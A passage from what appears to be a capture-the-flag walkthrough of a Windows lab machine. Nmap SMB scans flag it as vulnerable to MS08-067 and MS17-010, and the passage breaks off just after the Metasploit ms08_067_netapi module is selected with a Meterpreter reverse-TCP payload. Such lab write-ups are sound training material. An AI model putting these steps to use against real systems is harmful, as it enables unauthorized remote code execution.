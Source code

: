 ```

PORT    STATE SERVICE
135/tcp open  msrpc
139/tcp open  netbios-ssn
445/tcp open  microsoft-ds

Host script results:
| smb-vuln-ms08-067: 
|   VULNERABLE:
|   Microsoft Windows system vulnerable to remote code execution (MS08-067)
|     State: VULNERABLE
|     IDs:  CVE:CVE-2008-4250
|           The Server service in Microsoft Windows 2000 SP4, XP SP2 and SP3, Server 2003 SP1 and SP2,
|           Vista Gold and SP1, Server 2008, and 7 Pre-Beta allows remote attackers to execute arbitrary
|           code via a crafted RPC request that triggers the overflow during path canonicalization.
|           
|     Disclosure date: 2008-10-23
|     References:
|       https://technet.microsoft.com/en-us/library/security/ms08-067.aspx
|_      https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2008-4250
|_samba-vuln-cve-2012-1182: NT_STATUS_ACCESS_DENIED
| smb-vuln-ms17-010: 
|   VULNERABLE:
|   Remote Code Execution vulnerability in Microsoft SMBv1 servers (ms17-010)
|     State: VULNERABLE
|     IDs:  CVE:CVE-2017-0143
|     Risk factor: HIGH
|       A critical remote code execution vulnerability exists in Microsoft SMBv1
|        servers (ms17-010).
|           
|     Disclosure date: 2017-03-14
|     References:
|       https://technet.microsoft.com/en-us/library/security/ms17-010.aspx
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-0143
|_      https://blogs.technet.microsoft.com/msrc/2017/05/12/customer-guidance-for-wannacrypt-attacks/
|_smb-vuln-ms10-054: false
|_smb-vuln-ms10-061: ERROR: Script execution failed (use -d to debug)

Nmap done: 1 IP address (1 host up) scanned in 62.97 seconds
```
Apparently, the server has two known vulnerabilities: MS17-010 (EternalBlue that we already seen in a previous box) and MS08-67. It seems to have an exploit in MetaSploit for this vulnerability:
```
$ msfconsole
[msf](Jobs:0 Agents:0) >> search exploit MS08-067

Matching Modules
================

   #  Name                                 Disclosure Date  Rank   Check  Description
   -  ----                                 ---------------  ----   -----  -----------
   0  exploit/windows/smb/ms08_067_netapi  2008-10-28       great  Yes    MS08-067 Microsoft Server Service Relative Path Stack Corruption
```
## Foothold
Let's try this exploit using MetaSploit:
```
[msf](Jobs:0 Agents:0) >> use 0
[*] No payload configured, defaulting to windows/meterpreter/reverse_tcp
```